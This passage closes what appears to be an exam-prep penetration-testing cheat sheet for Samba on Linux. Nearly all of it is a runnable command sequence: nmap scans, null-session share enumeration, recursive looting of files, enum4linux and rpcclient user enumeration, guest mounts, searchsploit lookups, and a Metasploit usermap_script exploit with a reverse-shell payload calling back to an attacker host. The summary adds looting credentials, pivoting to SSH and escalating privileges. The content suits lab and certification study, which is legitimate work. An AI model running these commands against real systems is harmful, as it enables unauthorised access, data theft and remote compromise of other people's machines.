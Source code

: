 - Don’t assume Windows-only NSE vulns (e.g., ms17-010) are relevant; focus on Samba-specific findings.
- Document share names, permissions, and looted files for the exam report.

## Minimal cheat sheet (one-screen flow)
```bash
# 1) Discover
export RHOST=10.10.10.10; export LHOST=10.10.14.3
nmap -Pn -n -p 139,445 -sS -sV $RHOST
nmap -Pn -n -p445 --script "smb-os-discovery,smb-enum-shares,smb-enum-users,smb2-security-mode" $RHOST

# 2) Shares (null)
smbclient -L "//$RHOST" -N
smbmap -H $RHOST -u '' -p '' -r

# 3) Loot
smbclient "//$RHOST/SHARE" -N -m SMB1 << 'EOF'
recurse ON
prompt OFF
ls
mget *
EOF

# 4) Deep enum
enum4linux -a $RHOST
rpcclient -U "" -N $RHOST -c "lsaquery; enumdomusers; enumdomgroups"

# 5) Mount if needed
sudo mkdir -p /mnt/smb
sudo mount -t cifs "//$RHOST/SHARE" /mnt/smb -o guest,vers=1.0

# 6) Vulns
searchsploit samba | egrep -i "usermap|known pipe|cve-2017-7494"

# 7) Exploit (example: usermap_script)
msfconsole -q -x "use exploit/multi/samba/usermap_script; set RHOSTS $RHOST; set PAYLOAD cmd/unix/reverse; set LHOST $LHOST; run"
```

## Summary
- Targeting Samba on Linux starts with identifying SMB on 139/445, then enumerating OS, shares, and users with Nmap NSE and classic SMB tools.
- Attempt null/guest access first; recursively loot for creds/keys/configs.
- Use smbmap/enum4linux/rpcclient to deepen enumeration; validate any creds and pivot (often to SSH).
- Map server version and configuration to known Samba vulns. In training/labs, usermap_script (Samba 3.0.20) and SambaCry (CVE-2017-7494 with writable share) are common demos; Metasploit provides stable exploits for both.
- After gaining a shell, enumerate and escalate on the Linux host as needed.